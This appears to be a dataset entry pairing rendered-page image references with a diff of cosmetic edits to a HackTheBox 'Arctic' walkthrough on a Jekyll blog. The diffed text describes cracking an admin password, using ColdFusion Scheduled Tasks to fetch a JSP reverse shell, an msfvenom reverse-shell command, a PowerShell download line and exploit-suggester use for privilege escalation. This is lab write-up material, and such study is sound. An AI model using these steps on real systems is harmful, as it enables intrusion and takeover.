

Before and after one commit to efriel94/ef_blog, a Jekyll site: the page built from _posts/HackTheBox/2020-04-13-arctic.md, in a window 1280 px wide and 900 px high, scrolled down 3687 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated arctic post

````diff
--- a/_posts/HackTheBox/2020-04-13-arctic.md
+++ b/_posts/HackTheBox/2020-04-13-arctic.md
@@ -69,13 +69,13 @@ The exploit gives us the ability to read file paths using these parameters! Read
 | :--: |
 | *The directory path returned a hashed password on the webpage* |
 
-The portal shows a hashed password that I could attempt to crack. You can use John the ripper or various websites. I used crackstation.net and it successfully cracked the password which turned out to be “happyday”. Logging into the portal you can see everything about the server from “Settings Summary” under Server Setting tab. The info shows the server is running on Windows Vista and I came across important default file paths.
+The portal shows a hashed password that I could attempt to crack. You can use John the ripper or various websites. I used crackstation.net and it successfully cracked the password which turned out to be **happyday**. Logging into the portal you can see everything about the server from “Settings Summary” under Server Setting tab. The info shows the server is running on Windows Vista and I came across important default file paths.
 
 | ![image]({{site.github.url}}/assets/img/htb/arctic/mappings.png) |
 | :--: |
-| *Important directory mappings. If get to upload files to the server we'll use these default file paths* |
+| *Important directory mappings. If we get to upload files to the server we'll use these default file paths* |
 
-On the admin portal there is an option for “Scheduled Tasks” which gives us the ability to execute a task from a remote URL! Reverse shell task coming up. We know the server handles CFML and JSP from our reconnaissance so we can decide on a web shell (CFML) or a complete shell to the machine (JSP), I went for a complete shell but the CFML webshells are under **/usr/share/webshells/cfm** on Kali. Save the task to a file called shell.jsp using the default file path mappings above so we can execute that file from ```http://10.10.10.11/CFIDE/<file>```
+On the admin portal there is an option for “Scheduled Tasks” which gives us the ability to execute a task from a remote URL! Lovely. We know the server handles CFML and JSP so we can decide on a web shell (CFML) or a complete shell to the machine (JSP), I went for a complete shell but the CFML webshells are under **/usr/share/webshells/cfm** on Kali. Save the task to a file called shell.jsp using the default file path mappings above so we can execute that file from ```http://10.10.10.11/CFIDE/<file>```
 
 | ![image]({{site.github.url}}/assets/img/htb/arctic/task.png) |
 | :--: |
@@ -93,7 +93,7 @@ root@kali:~/Documents/boxes/arctic/share# msfvenom -p java/jsp_shell_reverse_tcp
 
 # Privilege Escalation
 
-If you run systeminfo you can see its running on Windows 2008 and there hasn’t been any patches carried out on the machine. Using Windows Exploit Suggester to find an escalation vulnerability:
+If you run ```systeminfo``` you can see its running on Windows 2008 and there hasn’t been any patches carried out on the machine. Using Windows Exploit Suggester to find an escalation vulnerability:
 
 ```bash
 root@kali:~/Documents/boxes/arctic# python windows-exploit-suggester.py --database 2020-04-10-mssb.xls --systeminfo systeminfo.txt --quiet
@@ -130,6 +130,7 @@ C:\Users\tolis\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).Down
 | :--: |
 | *Running the exploit* |
 
-| ![image]({{site.github.url}}/assets/img/htb/arctic/root.png) |
-| :--: |
-| *Boom, root privelleges.* |
+![image]({{site.github.url}}/assets/img/htb/arctic/root.png) |
+
+
+Boom, root privelleges.
````
Also changed, not shown: other parts of _posts/HackTheBox/2020-04-13-arctic.md (+2 -2 lines).
